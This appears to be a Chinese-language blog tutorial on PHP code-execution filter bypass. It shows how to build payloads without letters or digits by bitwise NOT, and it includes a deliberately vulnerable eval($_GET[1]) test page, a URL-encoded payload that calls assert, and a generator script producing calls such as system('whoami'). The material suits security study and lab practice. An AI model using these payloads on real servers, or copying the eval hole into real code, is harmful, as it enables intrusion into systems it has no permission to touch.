 ```yaml
---
title: PHP取反异或实现无字母数字rce
date: 2025-01-21 01:19:36
permalink: /pages/92040c/
author: 
  name: the0n3
  link: https://the0n3.top
---
```


三个愿望，一次满足。通过`取反`、`异或`、`或`运算，构造payload，实现PHP无字母RCE

<img src="https://the0n3.top/medias/phprce/6.png" alt="6" style="width:50%; height:auto;">



似乎利用动态调用函数多一点，例如`('函数名')();`、`('函数名')('参数');`，这样来动态调用实现的

测试环境用eval函数

```php
<?php
highlight_file(__FILE__);
eval($_GET[1]);
```

## 取反

测试发现，取反的payload，8.x版本好像不行

示例payload

```php
assert("eval($_POST[1]);");
# payload
(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%C4);
# POST
1=phpinfo();
```

![1](https://the0n3.top/medias/phprce/1.png)

取反构造脚本

```php
<?php
/*
 * Author: the0n3
 * Date: 2025-01-21
 */
# 测试用
$cmd = "phpinfo";
echo "(~" . urlencode(~$cmd). ")();";
echo "\n";
# (~%8F%97%8F%96%91%99%90)();

# 构造
$func = "assert";
$params = "system('whoami')";
# 取反
$func = "(~" . urlencode(~$func) . ")";
$params = "(~" . urlencode(~$params) . ");";
echo $func . $params;
```
